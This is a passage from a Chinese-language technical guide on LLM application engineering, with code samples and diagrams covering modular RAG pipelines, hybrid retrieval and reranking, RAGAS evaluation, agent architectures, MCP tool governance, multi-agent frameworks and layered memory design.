

**这张图展示了**：通过 Pydantic Schema -> 格式指令 -> LLM 生成 -> 解析 -> 失败则修正 的闭环，我们将“不可靠的文本生成”转化为“类型安全的函数调用”，这是构建可靠 AI 系统的编程契约基石。

---

## 9.10 RAG 系统工程化 —— 从召回文档到知识计算

### 9.10.1 模块化 Pipeline：标准化接口与即插即用组装

RAG 不再是“向量检索 + 生成”的固定搭配，而是一组标准化接口的组合。LangChain/LlamaIndex 定义了核心抽象，支持高级策略即插即用。来源：《20230418_106.md》

> "定义标准化 RAG Pipeline 接口：DocumentLoader/Transformer -> VectorStore/Retriever -> Generator，支持混合检索、父子文档、假设性文档嵌入等高级策略的即插即用组装。"

**核心接口契约 (概念即图纸)**：

```typescript
// 1. 文档加载与转换 (索引侧)
interface DocumentLoader {
  load(): Promise<Document[]>;  // Document: pageContent, metadata
}

interface DocumentTransformer {
  transform(docs: Document[]): Promise<Document[]>; // 分块、元数据增强、摘要提取
}

// 2. 向量存储与检索 (检索侧)
interface VectorStore {
  addDocuments(docs: Document[]): Promise<string[]>; // 返回 IDs
  similaritySearch(query: string, k: number, filter?: object): Promise<Document[]>;
}

interface Retriever {
  getRelevantDocuments(query: string): Promise<Document[]>;
  // 高级: 支持查询重写、路由、混合检索
  getRelevantDocumentsWithScore(query: string): Promise<[Document, number][]>;
}

// 3. 生成侧
interface Generator {
  generate(query: string, context: Document[]): Promise<string>;
  // 流式
  streamGenerate(query: string, context: Document[]): AsyncIterable<string>;
}
```

**模块化组装示例 (高级 RAG Pipeline)（架构图）**：



**代码组装示例**：

```python
from langchain.chains import create_retrieval_chain
from langchain.chains.combine_documents import create_stuff_documents_chain
from langchain.retrievers import EnsembleRetriever, ContextualCompressionRetriever
from langchain.retrievers.document_compressors import CrossEncoderReranker
from langchain_community.cross_encoders import HuggingFaceCrossEncoder

# 1. 基础组件
vector_store = Chroma(persist_directory="./chroma_db", embedding_function=embeddings)
base_retriever = vector_store.as_retriever(search_kwargs={"k": 20})

# 2. 混合检索: BM25 (关键词) + 向量 (语义)
bm25_retriever = BM25Retriever.from_documents(all_docs)
bm25_retriever.k = 10
ensemble_retriever = EnsembleRetriever(
    retrievers=[bm25_retriever, base_retriever],
    weights=[0.4, 0.6]  # 语义权重略高
)

# 3. 重排序: Cross-Encoder 精准打分
cross_encoder = HuggingFaceCrossEncoder(model_name="BAAI/bge-reranker-large")
reranker = CrossEncoderReranker(model=cross_encoder, top_n=5)
compression_retriever = ContextualCompressionRetriever(
    base_compressor=reranker,
    base_retriever=ensemble_retriever
)

# 4. 查询重写/路由 (可选组件)
# query_rewriter = QueryRewriter(llm) # 生成子查询/假设性文档
# router = QueryRouter(llm) # 选择知识库/检索策略

# 5. 组装最终链
qa_chain = create_stuff_documents_chain(llm, qa_prompt)
rag_chain = create_retrieval_chain(compression_retriever, qa_chain)

# 运行
result = rag_chain.invoke({"input": "如何配置 CSP nonce 方案?"})
# result: {"input": "...", "context": [Doc...], "answer": "..."}
```

**这段代码与架构图展示了**：通过标准化接口，我们可以像搭积木一样组合 `BM25 + Vector + Rerank + QueryRewrite`，快速实验不同检索策略组合，无需重写业务逻辑。

### 9.10.2 高级检索策略：混合召回与重排序

**核心痛点**：单一向量检索在“关键词精准匹配”（如错误码、API 名称）上表现差；纯 BM25 在“语义泛化”上表现差。混合检索 + 重排序是工业界标准解法。来源：《20230418_106.md》

**混合检索数学模型**：

$$
\text{Score}_{\text{hybrid}}(q, d) = \alpha \cdot \text{Score}_{\text{dense}}(q, d) + (1-\alpha) \cdot \text{Score}_{\text{sparse}}(q, d)
$$

- $\text{Score}_{\text{dense}}$: 向量相似度 (Cosine/Inner Product)，捕捉语义。
- $\text{Score}_{\text{sparse}}$: BM25 分数，捕捉关键词精准匹配。
- $\alpha \in [0,1]$: 可调参数，或通过学习排序 (LTR) 模型预测。

**重排序器对比**：

| 重排序器 | 原理 | 延迟 | 精度 | 适用场景 |
| :--- | :--- | :--- | :--- | :--- |
| **Cross-Encoder (BERT 类)** | `[CLS] Query [SEP] Doc [SEP]` 交互式注意力打分 | 高 (需逐对前向传播) | **最高** | 最终 Top-K (5-10) 精排，离线/在线均可 |
| **LLM 重排序** | Prompt: "Query: ... Doc: ... 相关性 1-10" | **极高** | 极高 (推理能力) | 高价值查询、复杂推理判断、离线标注数据生成 |
| **Cohere Rerank / Jina Rerank** | 商业化 Cross-Encoder API | 中 (网络 RTT) | 高 | 无自建 GPU 资源团队，快速接入 |

**工程化权衡**：
- **召回阶段 (Recall)**: 大网捕鱼，`k=50-100`，混合检索保证召回率上界。
- **重排阶段 (Precision)**: 精准筛选，`top_n=3-5`，Cross-Encoder 保证精度下界。
- **延迟预算**：召回 < 50ms，重排 < 100ms (批量推理)，总检索链路 < 200ms。

**混合检索打分流程（流程图）**：

```mermaid
graph TD
    A[用户查询] --> B[查询重写/扩展]
    B --> C1[稠密向量检索 Top-50]
    B --> C2[稀疏 BM25 检索 Top-50]
    C1 --> D[分数归一化]
    C2 --> D
    D --> E[加权融合 α*Dense + (1-α)*Sparse]
    E --> F[去重合并 Top-20]
    F --> G[Cross-Encoder 重排序]
    G --> H[最终 Top-5 文档]
    H --> I[LLM 生成]
```

### 9.10.3 RAG 评测体系：RAGAS/ARES 与数据飞轮

来源：《20230418_109.md》

> "建立‘可测量即可优化’的评测体系：引入忠实度、答案相关性、上下文精确度/召回率等核心指标，结合合成测试集生成与在线人工反馈，驱动检索策略、分块参数、提示词的持续自动化优化。"

**RAGAS 核心指标定义 (无参考答案场景)**：

| 指标 | 定义 | 计算逻辑 (简化) | 关注点 |
| :--- | :--- | :--- | :--- |
| **Faithfulness (忠实度)** | 答案是否仅基于检索上下文，无幻觉 | $\frac{\| \text{Claims}(answer) \cap \text{SupportedBy}(context) \|}{\| \text{Claims}(answer) \|}$ | **幻觉率** |
| **Answer Relevancy (答案相关性)** | 答案是否真正回答了问题 | $\text{MeanCosSim}(\text{Emb}(q), \text{Emb}(\text{GeneratedQuestions}(answer)))$ | **跑题/废话** |
| **Context Precision (上下文精确率)** | 检索结果中相关文档是否排在前面 | $\frac{1}{k} \sum_{i=1}^k \text{Precision}@i \cdot \mathbb{1}[\text{doc}_i \text{ relevant}]$ | **噪音干扰** |
| **Context Recall (上下文召回率)** | 所有相关文档是否被召回 | $\frac{\| \text{RelevantDocs} \cap \text{RetrievedDocs} \|}{\| \text{RelevantDocs} \|}$ | **遗漏关键知识** |

**数据飞轮闭环架构（架构图）**：

```mermaid
graph TD
    A[线上流量/用户交互] --> B{采样策略}
    B -->|高价值/低置信度/报错| C[专家/模型标注]
    C --> D[黄金测试集 / 偏好数据对 (Chosen/Rejected)]
    D --> E[离线评测]
    E --> F[指标回归检测]
    F -->|回归| G[触发自动优化]
    G --> H[优化目标: 分块大小/检索权重/提示词/重排模型]
    H --> I[离线验证通过]
    I --> J[灰度发布 (Canary)]
    J --> K[线上 A/B 测试]
    K -->|胜出| L[全量发布]
    L --> A
    
    style G fill:#e1bee7,stroke:#7b1fa2
    style K fill:#cce5ff,stroke:#007bff
```

**这张图展示了**：RAG 系统不是“部署即完工”，而是持续进化的数据产品。评测指标是方向盘，自动化优化是引擎，灰度发布是刹车。RAGAS 指标数学定义来源于原始论文 Shahul et al., "RAGAS: Automated Evaluation of Retrieval Augmented Generation"。

### 9.10.4 Agentic RAG：检索即工具，赋能自主决策

传统 RAG 是固定流程：收到查询 -> 必定检索 -> 生成。Agentic RAG 将检索器封装为 Tool，Agent 自主决定是否检索、检索什么、如何改写、如何验证。来源：《20230418_136.md》

> "进化至 Agentic RAG 架构：将检索器封装为 Tool，赋予 Agent 自主决策‘是否检索、检索什么、如何改写查询、如何验证结果’的能力，解决复杂多跳问答与动态知识获取场景。"

**Agentic RAG 工具定义**：

```python
from langchain.tools import BaseTool
from pydantic import BaseModel, Field

class RetrieverToolInput(BaseModel):
    query: str = Field(description="检索查询语句，建议分解为原子化子问题")
    strategy: str = Field(default="hybrid_rerank", description="检索策略: hybrid_rerank / bm25_only / vector_only")
    top_k: int = Field(default=5, description="最终返回文档数")

class RetrieverTool(BaseTool):
    name: str = "knowledge_base_retriever"
    description: str = "当需要查询内部技术文档、API 规范、历史决策记录时使用。输入原子化查询，返回相关文档片段。"
    args_schema: type = RetrieverToolInput
    
    def _run(self, query: str, strategy: str = "hybrid_rerank", top_k: int = 5) -> List[Document]:
        # 内部封装完整检索链路: 重写 -> 混合召回 -> 重排 -> 截断
        return advanced_retrieve(query, strategy, top_k)

# Agent 系统提示词片段
SYSTEM_PROMPT = """
你是一个拥有知识库检索工具的专家助手。
决策原则:
1. 遇到事实性/技术细节/时效性问题 -> 必须调用 knowledge_base_retriever
2. 复杂多跳问题 -> 分解为多个原子子查询，并行/串行调用工具
3. 检索结果不足/冲突 -> 尝试改写查询词、切换策略、或告知用户知识库缺口
4. 通用知识/推理/编码任务 -> 直接依赖内参知识回答
"""
```

**多跳问答执行轨迹示例**：

```
User: "对比我们公司当前 CSP 策略与 Google 最新最佳实践的差异"

Agent Thought 1: 需要两个信息源：1) 公司内部 CSP 配置文档 2) Google 最新 CSP 指南。后者不在内部知识库，需网络搜索(另一个工具)或告知用户。
Action 1: knowledge_base_retriever(query="公司 CSP 策略配置 nonce strict-dynamic")
Observation 1: 返回内部文档片段...

Agent Thought 2: 已获取内部策略。Google 最新实践需外部知识。我没有浏览器工具，告知用户基于内部文档对比，外部部分需其提供或我基于训练知识(可能过时)回答。
Action 2: Finish(Answer: "基于内部知识库，公司策略为... Google 官方建议... (知识截止 2024-06) 建议参考最新 web.dev 文档。")
```

---

## 9.11 Agent 架构与规划推理 —— 从单轮调用到自主执行闭环

### 9.11.1 认知架构范式演进：ReAct -> Plan-and-Execute -> Reflexion

Agent 核心难题：如何在不确定环境中可靠地完成多步任务？三大范式代表了不同的复杂度与鲁棒性权衡。来源：《20230418_105.md》

> "对比三大主流 Agent 范式：ReAct 交互式推理行动、Plan-and-Execute 显式规划与执行分离、Reflexion 引入语言强化学习实现试错修正，分析其在任务复杂度、Token 消耗、鲁棒性上的适用边界。"

**范式对比矩阵**：

| 范式 | 核心机制 | 控制流 | 优势 | 劣势 | 适用场景 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **ReAct** | Thought -> Act -> Obs 循环 | **单线程交织** | 简单、Token 省、适合短链路 (3-5 步) | 易陷入循环、长链路规划差、错误传播不可逆 | 简单工具调用、单跳问答、代码片段生成 |
| **Plan-and-Execute** | **Planner** 生成全量计划 -> **Executor** 逐步执行 -> 可选 **Replanner** | **显式分离**：规划与执行解耦 | 长链路可控、支持并行执行、便于人工审计计划 | 规划错误导致全盘皆错、Planner 需强模型、Token 消耗大 | 复杂多步任务 (数据分析、报告生成、部署流程) |
| **Reflexion** | 执行失败 -> **语言反思** -> 更新策略/记忆 -> 重试 | **试错闭环** | 自我修正、从经验中学、无需梯度更新 | 额外 Token 开销、反思质量依赖模型能力、可能过拟合单次错误 | 高价值任务、需高成功率、可容忍较高延迟/成本 |

**Plan-and-Execute 架构详解 (数据流图)**：

```mermaid
graph TD
    A[用户目标] --> B[Planner LLM]
    B --> C[结构化计划 Plan\n[Step1: ..., Step2: ..., Step3: ...]]
    C --> D{Executor 调度器}
    D --> E[Step 1: Tool A]
    E --> F[结果 1]
    F --> D
    D --> G[Step 2: Tool B + Tool C (并行)]
    G --> H[结果 2]
    H --> D
    D --> I[Step 3: 生成最终报告]
    I --> J[最终输出]
    
    F -->|异常/偏离| K[Replanner LLM]
    H -->|异常/偏离| K
    K -->|更新计划| C
    
    style C fill:#e1bee7,stroke:#7b1fa2
    style K fill:#fff3cd,stroke:#ffc107
```

**这张图展示了**：显式规划将“推理”外显为可检查、可干预、可并行的结构化计划，是工程化落地复杂 Agent 的关键。Reflexion 机制参考论文 Shinn et al., "Reflexion: Language Agents with Verbal Reinforcement Learning"，通过语言反馈实现策略迭代，无需梯度更新。

### 9.11.2 工具生态标准化：Function Calling、MCP 与 Toolformer

工具是 Agent 与外部世界交互的“手脚”。标准化协议是生态互操作的前提。来源：《20230418_106.md》

> "构建工程化工具层：OpenAI Function Calling 协议规范、Model Context Protocol (MCP) 统一接口、工具注册发现与权限控制、Toolformer 风格的工具使用微调数据构建，实现工具的标准化接入与治理。"

**协议对比**：

| 协议/标准 | 发起方 | 核心特性 | 适用场景 |
| :--- | :--- | :--- | :--- |
| **OpenAI Function Calling** | OpenAI | JSON Schema 定义参数、模型原生支持并行调用、流式返回增量参数 | OpenAI 兼容模型、单模型应用、快速接入 |
| **MCP (Model Context Protocol)** | Anthropic / 开源社区 | **传输层中立** (stdio/SSE/HTTP)、资源/工具/提示词统一抽象、支持服务端流式、权限模型 | **多模型/多语言/跨进程/企业级治理**、Agent 互操作 |
| **Toolformer (微调范式)** | Meta Research | 在预训练/微调阶段注入工具调用 Token，模型**内化**工具调用能力 | 开源模型部署、降低推理 Token、特定领域工具固化 |

**MCP 核心抽象 (简化)**：

```typescript
// 资源: 只读数据源 (文件/数据库/API 响应)
interface Resource {
  uri: string;           // 如 file:///data/report.pdf, postgres://db/users
  name: string;
  mimeType?: string;
  text?: string;         // 文本内容
  blob?: string;         // Base64 二进制
}

// 工具: 可执行操作 (有副作用/计算)
interface Tool {
  name: string;
  description: string;
  inputSchema: JSONSchema; // 参数定义
  // 执行端点由 Server 实现，Client 通过 JSON-RPC 调用
}

// 提示词模版: 可复用的 Prompt 模版
interface PromptTemplate {
  name: string;
  description: string;
  arguments: PromptArgument[];
  // 渲染逻辑由 Server 实现
}
```

**MCP 协议交互流程（时序图）**：



**工程化治理：工具注册中心**：

```python
# 内部工具注册表
class ToolRegistry:
    def __init__(self):
        self.tools: Dict[str, ToolDefinition] = {}
        self.permissions: Dict[str, List[str]] = {} # tool_name -> allowed_roles
    
    def register(self, tool: ToolDefinition, required_roles: List[str] = ["default"]):
        self.tools[tool.name] = tool
        self.permissions[tool.name] = required_roles
    
    def get_available_tools(self, user_roles: List[str]) -> List[ToolDefinition]:
        return [t for n, t in self.tools.items() if set(self.permissions[n]) & set(user_roles)]
    
    def execute(self, tool_name: str, args: Dict, user_roles: List[str]) -> Any:
        # 1. 权限校验
        if not set(self.permissions[tool_name]) & set(user_roles):
            raise PermissionError(f"Role {user_roles} not allowed for {tool_name}")
        # 2. 审计日志
        audit_log.log(tool_name, args, user_roles)
        # 3. 执行
        return self.tools[tool_name].run(args)
```

---

## 9.12 长程规划与多 Agent 协作

### 9.12.1 树搜索与 LLM Compiler：从线性推理到并行执行计划

复杂任务中，线性推理链路极易跑偏。树搜索 (MCTS/ToT) 在推理时探索多条路径；LLM Compiler 将自然语言编译为并行任务图 (DAG)，显著提升效率。来源：《20230418_109.md》

> "解决复杂目标下的规划失效：引入 MCTS/ToT 树搜索增强推理、DAG 任务图并行执行、LLM Compiler 将自然语言指令编译为并行执行计划，显著提升多步任务成功率与执行效率。"

**ToT (Tree of Thoughts) 核心循环**：

```python
# 伪代码：ToT 搜索框架
def tot_solve(problem: str, llm, max_depth=3, branch_factor=3) -> str:
    # 状态: (当前推理路径字符串, 状态评分)
    root = State(path="", score=1.0)
    
    for depth in range(max_depth):
        candidates = []
        for state in current_frontier:
            # 1. 生成: LLM 基于当前路径提出 branch_factor 个下一步思考
            thoughts = llm.generate(f"{problem}\nCurrent reasoning: {state.path}\nGenerate {branch_factor} next steps:")
            
            for thought in thoughts:
                # 2. 评估: LLM (或独立评估器) 给该思考打分
                score = evaluate(llm, problem, state.path + thought)
                candidates.append(State(path=state.path + thought, score=score))
        
        # 3. 剪枝: 保留 Top-K
        current_frontier = sorted(candidates, key=lambda s: s.score, reverse=True)[:branch_factor]
    
    # 返回最高分路径的最终答案
    best_state = max(current_frontier, key=lambda s: s.score)
    return extract_answer(best_state.path)
```

**LLM Compiler：自然语言 -> 并行 DAG 执行计划（架构图）**：

```mermaid
graph TD
    A[用户指令: "分析 Q3 销售数据，生成趋势图，写入报告，发送邮件"] 
    A --> B[LLM Compiler (Planner LLM)]
    B --> C[任务图 DAG]
    C --> D[Task 1: Query DB (销售数据) --> Task 2: Python 数据分析]
    C --> E[Task 3: 生成图表 (依赖 Task 2)]
    C --> F[Task 4: 渲染报告模版 (依赖 Task 2, 3)]
    C --> G[Task 5: 发送邮件 (依赖 Task 4)]
    
    D --> H[并行执行引擎]
    E --> H
    F --> H
    G --> H
    H --> I[结果聚合]
    
    style C fill:#e1bee7,stroke:#7b1fa2
```

**LLM Compiler 伪代码**：

```python
class LLMCompiler:
    def __init__(self, planner_llm, executor_pool):
        self.planner = planner_llm
        self.executors = executor_pool  # Tool 执行器池
    
    def compile_and_execute(self, instruction: str) -> str:
        # 1. 规划: 生成带依赖的任务图 (JSON)
        plan_json = self.planner.generate(f"""
            将指令分解为并行任务图，输出 JSON:
            {{"tasks": [
                {{"id": "1", "tool": "sql", "args": "...", "depends_on": []}},
                {{"id": "2", "tool": "python", "args": "...", "depends_on": ["1"]}},
                {{"id": "3", "tool": "chart", "args": "...", "depends_on": ["2"]}}
            ]}}
            指令: {instruction}
        """)
        dag = parse_dag(plan_json)
        
        # 2. 拓扑调度执行
        results = {}
        ready_queue = [t for t in dag.tasks if not t.depends_on]
        
        while ready_queue:
            # 并行执行当前就绪任务
            batch = ready_queue
            ready_queue = []
            futures = {t.id: self.executors.submit(t.tool, t.args, results) for t in batch}
            
            for task_id, future in futures.items():
                results[task_id] = future.result()
                # 解锁下游任务
                for downstream in dag.get_downstream(task_id):
                    if all(dep in results for dep in downstream.depends_on):
                        ready_queue.append(downstream)
        
        return results[dag.final_task_id]
```

**这段代码与架构图展示了**：LLM Compiler 将“规划”变为“编译”，生成的 DAG 可被确定性调度器并行执行，将 Agent 执行延迟从 O(Steps) 降为 O(Critical Path Length)。LLM Compiler 机制参考论文 Kim et al., "LLM Compiler: Parallel Function Calling"。

### 9.12.2 多 Agent 协作编排：MetaGPT、AutoGen 与动态组网

单一 Agent 能力有限，多 Agent 协作通过角色分工、辩论机制、标准化流程解决复杂系统级任务（如全栈开发、科研论文撰写）。来源：《20230418_136.md》

> "设计多 Agent 系统：MetaGPT/ChatDev 标准化软件开发流程、AutoGen 群聊与代理代理模式、辩论/反思机制缓解幻觉、动态组网拓扑，从单一 Agent 进化为弹性协作的智能体组织。"

**协作拓扑对比**：

| 框架/模式 | 协作拓扑 | 通信机制 | 核心创新 | 典型应用 |
| :--- | :--- | :--- | :--- | :--- |
| **MetaGPT** | **流水线/装配线** (PM -> Arch -> Eng -> QA) | 结构化文档传递 (PRD -> Design -> Code -> Test) | **SOP 标准化流程**固化最佳实践、文档驱动开发 | 软件开发全流程自动化 |
| **AutoGen** | **群聊** (多 Agent 共享对话池) + **代理模式** (User Proxy 执行代码) | 自然语言消息广播、选择性回复、工具调用代理 | 灵活的对话式协作、人工介入自然、代码执行环境隔离 | 编程辅助、数学求解、创意写作 |
| **ChatDev** | **虚拟公司** (CEO/CTO/Programmer/Tester/Reviewer) | 会议机制 (设计会/代码会/测试会) + 记忆流 | 完整软件公司模拟、配置驱动角色 | 端到端软件生成 |
| **动态组网** | **图拓扑** (运行时根据任务动态招募/解散 Agent) | 消息总线 / 事件驱动 | 弹性伸缩、专家路由、成本最优 | 开放域复杂任务、平台化 Agent 服务 |

**MetaGPT SOP 标准化流程示例 (伪代码)**：

```python
class SoftwareCompany:
    def __init__(self):
        self.roles = {
            "PM": ProductManager(),
            "Architect": Architect(),
            "Engineer": Engineer(),
            "QA": QAEngineer()
        }
        # SOP: 标准化操作程序
        self.sop = [
            Stage(name="Requirements", roles=["PM"], output="PRD.md"),
            Stage(name="Design", roles=["Architect"], input="PRD.md", output="DESIGN.md"),
            Stage(name="Implementation", roles=["Engineer"], input="DESIGN.md", output="CODE/"),
            Stage(name="Testing", roles=["QA"], input="CODE/", output="TEST_REPORT.md"),
            Stage(name="Review", roles=["PM", "Architect"], input=["CODE/", "TEST_REPORT.md"], output="RELEASE_NOTE.md")
        ]
    
    def run(self, idea: str) -> Dict:
        context = {"idea": idea}
        for stage in self.sop:
            # 并行/串行执行角色
            stage_outputs = {}
            for role_name in stage.roles:
                role = self.roles[role_name]
                # 角色内部可能包含多轮 ReAct/Reflexion
                output = role.act(context, stage.input_files)
                stage_outputs[role_name] = output
            
            # 产出物归档、传递给下一阶段
            context.update(stage_outputs)
            self.archive(stage.name, stage_outputs)
        
        return context
```

**辩论/反思机制缓解幻觉 (AutoGen 群聊模式)（时序图）**：



---

## 9.13 记忆与个性化系统 —— 从无状态推理到持续进化的数字孪生

### 9.13.1 分层记忆架构：认知科学映射到工程系统

LLM 原生无状态、上下文窗口有限。分层记忆借鉴认知科学模型，构建四层存储体系，支撑长期陪伴与持续进化。来源：《20230418_105.md》

> "借鉴认知科学建立四层记忆模型：短时记忆 (对话窗口)、情景记忆 (向量化经历)、语义记忆 (抽象知识图谱)、程序性记忆 (技能/流程)，设计基于重要性评分、时间衰减、访问频率的自动巩固与遗忘算法。"

**四层记忆架构设计 (数据流图)**：

```mermaid
graph TD
    subgraph Interaction [交互层]
        U[用户输入] --> STM[短时记忆 STM\n滑动窗口 / 摘要压缩\n容量: ~4k-128k Tokens]
    end
    
    subgraph Consolidation [巩固调度器 (异步后台任务)]
        STM -->|重要性评分 > 阈值| EM[情景记忆 EM\n向量数据库\n存储: (嵌入向量, 原文片段, 时间戳, 重要性, 访问计数)]
        STM -->|抽取实体/关系/偏好| SM[语义记忆 SM\n知识图谱 / 结构化用户画像表\n存储: (实体, 关系, 属性, 置信度)]
        STM -->|高频任务模式| PM[程序性记忆 PM\nSkill/Workflow 库\n存储: (触发条件, 执行步骤 DAG, 成功率)]
    end
    
    subgraph Retrieval [检索注入层]
        EM -.->|相似度检索 + 时间衰减权重| Context[注入上下文]
        SM -.->|实体链接 + 图遍历| Context
        PM -.->|意图匹配| Context
        Context --> LLM[LLM 推理]
    end
    
    subgraph Forgetting [遗忘机制]
        EM -->|分数 < 阈值 & 时间衰减| Archive[冷存储/删除]
        SM -->|置信度降低/冲突| ConflictResolution[冲突消解见 9.13.3]
        PM -->|成功率低/过时| Deprecate[废弃/版本迭代]
    end
    
    style STM fill:#cce5ff,stroke:#007bff
    style EM fill:#e1bee7,stroke:#7b1fa2
    style SM fill:#ffe0b2,stroke:#ff9800
